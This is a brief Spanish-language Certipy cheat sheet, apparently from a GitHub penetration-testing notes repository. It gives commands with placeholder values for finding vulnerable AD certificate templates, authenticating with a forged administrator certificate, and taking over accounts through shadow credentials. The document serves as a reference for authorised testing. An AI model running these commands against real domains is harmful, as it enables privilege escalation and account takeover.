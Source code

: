 # Certipy Cheat Sheet

#### Conocer el nivel y saber que template es vulnerable
```
certipy find -u <USER>@<DOMAIN> -p '<PASSWORD>' -dc-ip <IP-DC> -vulnerable -stdout
```

#### Autenticarse usando el TGT creado (administrator.pfx)
```
certipy auth -pfx 'administrator.pfx' -username '<USERNAME>' -domain '<DOMAIN>' -dc-ip <IP-DC>
```

#### Abuso de credenciales ocultas para la apropiación de cuentas
```
certipy shadow auto -u '<USERNAME>' -p '<PASSWORD>' -account '<ACCOUNT_NAME>' -dc-ip <IP-DC>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)